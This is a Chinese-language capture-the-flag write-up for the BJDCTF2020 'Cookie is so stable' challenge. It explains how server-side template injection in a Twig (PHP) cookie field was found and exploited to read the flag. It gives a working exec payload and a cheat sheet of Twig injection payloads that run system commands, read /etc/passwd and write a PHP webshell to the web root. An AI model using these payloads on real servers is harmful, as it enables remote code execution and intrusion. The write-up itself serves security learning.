


# [BJDCTF2020]Cookie is so stable

## 知识点

`SSTI`

`twig`

## 解题



和之前一题`SSTI`注入比较相似，但是这题过滤了`+`

测试`cookie`中的`user={{3*3}}`

返回`Hello 9`

说明存在模板注入

确定服务端的语言为`php`之后，范围就很小了，补充下各种语言发生`ssti注入`的模板，如下：

```c
python: jinja2 mako tornado django
php:smarty twig Blade
java:jade velocity jsp
```

 7、确定此处产生`ssti注入`的模板可以为`smarty`、`twig`等，那就一个一个尝试，这里就直接使用`twig`模板的注入方式进行注入了，`payload`：`{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /flag")}}`即可成功注入



`twig`常用的注入`payload`：

```c
{{'/etc/passwd'|file_excerpt(1,30)}}
{{app.request.files.get(1).__construct('/etc/passwd','')}}
{{app.request.files.get(1).openFile.fread(99)}}
{{_self.env.registerUndefinedFilterCallback("exec")}}
{{_self.env.getFilter("whoami")}}
{{_self.env.enableDebug()}}{{_self.env.isDebug()}}
{{["id"]|map("system")|join(",")
{{{"<?php phpinfo();":"/var/www/html/shell.php"}|map("file_put_contents")}}
{{["id",0]|sort("system")|join(",")}}
{{["id"]|filter("system")|join(",")}}
{{[0,0]|reduce("system","id")|join(",")}}
{{['cat /etc/passwd']|filter('system')}}
```

[参考](https://www.cnblogs.com/upfine/p/16534494.html)